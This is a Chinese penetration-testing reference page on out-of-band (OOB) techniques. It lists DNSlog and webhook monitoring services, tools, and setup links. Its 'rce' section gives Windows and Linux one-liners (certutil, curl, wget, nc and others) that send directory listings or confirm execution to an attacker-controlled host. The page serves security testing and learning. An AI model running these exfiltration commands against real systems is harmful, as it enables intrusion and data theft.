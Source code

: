 # OOB

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [带外通道技术（OOB）总结](https://www.freebuf.com/articles/web/201013.html)
- [OOB（out of band）分析系列之DNS渗漏](https://cloud.tencent.com/developer/article/1047283)
- [Burpsuite之BurpCollaborator模块介绍](https://www.jianshu.com/p/92b4b8ddf12f)
- [Persistent Access to Burp Suite Sessions - Step-by-Step Guide](https://www.onsecurity.io/blog/persistent-access-to-burp-suite-sessions-step-by-step-guide/)
- [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
- [HTTP BLIND](https://web.archive.org/web/20200224073305/https://echocipher.github.io/2019/07/22/HTTP-BLIND/)
- [Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface)
- [System Hardening을 피해 RCE를 탐지하기 위한 OOB 방법들](https://www.hahwul.com/2022/03/11/bypass-system-hardening-rce-oob/)

**在线监控平台**
- http://ceye.io/
- https://webhook.site
- http://www.dnslog.cn/
- https://iplogger.org/
- https://log.xn--9tr.com/

**相关工具**
- [uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck) - 该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器
- [Buzz2d0/Hyuga](https://github.com/Buzz2d0/Hyuga) - 一个用来检测带外(Out-of-Band)流量(DNS查询和HTTP请求)的监控工具
- [ztgrace/mole](https://github.com/ztgrace/mole) - 识别和利用out-of-band (OOB)漏洞的burp扩展

**平台搭建**
- [十分钟快速自建DNSlog服务器](https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg)
- [DNSLOG的快速搭建攻略](https://www.yinxiang.com/everhub/note/471fd1c4-7885-4b67-aa39-41dc36102b43)
- [安全技术|DNSLOG平台搭建从0到1](https://www.4hou.com/posts/VoJ9)

**平台**
- [BugScanTeam/DNSLog](https://github.com/BugScanTeam/DNSLog) - DNSLog 是一款监控 DNS 解析记录和 HTTP 访问记录的工具
- [lanyi1998/DNSlog-GO](https://github.com/lanyi1998/DNSlog-GO) - DNSLog-GO 是一款 golang 编写的监控 DNS 解析记录的工具，自带 WEB 界面
- [chennqqi/godnslog](https://github.com/chennqqi/godnslog)
    ```bash
    docker pull "sort/godnslog"
    docker run -p80:8080 -p53:53/udp "sort/godnslog" serve -domain yourdomain.com -4 100.100.100.100
    # yourdomain.com 替换为你的域名 100.100.100.100 替换为你的公网IP
    ```
- [yumusb/DNSLog-Platform-Golang](https://github.com/yumusb/DNSLog-Platform-Golang) - DNSLOG平台 golang 一键启动版
- [phith0n/conote-community](https://github.com/phith0n/conote-community) - Conote 综合安全测试平台社区版

---

## rce

**Windows**

- certutil

    使用 certutil 请求证书文件，并将下载文件重定向到 nul，无缓存、无需浏览器实现发起 http 请求
    ```bash
    for /F %x in ('dir /b c:\') do certutil -urlcache -split -f "http://xxx.ceye.io/?result=%x" nul
    ```

- curl

    windows 环境默认是支持 curl 的
    ```bash
    for /F %x in ('dir /b c:\') do curl http://xxx.ceye.io/%x
    ```

**linux**

- curl

    ```
    curl http://xxx.ceye.io/%x
    ```

- wget

    ```
    wget http://xxx.ceye.io/%x
    ```

- ping

    linux 默认 ping 不带 -c 参数是会导致无限ping下去的,一定要带 -c
    ```bash
    ping -c 4 xxx.ceye.io
    ```

- openssl

    ```
    openssl s_client -connect xxx.ceye.io:80
    ```

- nc

    ```
    echo -e "GET / HTTP/1.1\nHost: http://xxx.ceye.io/%x\n\n" | nc xxx.ceye.io 80
    ```

- dig

    ```
    dig xxx.ceye.io
    ```
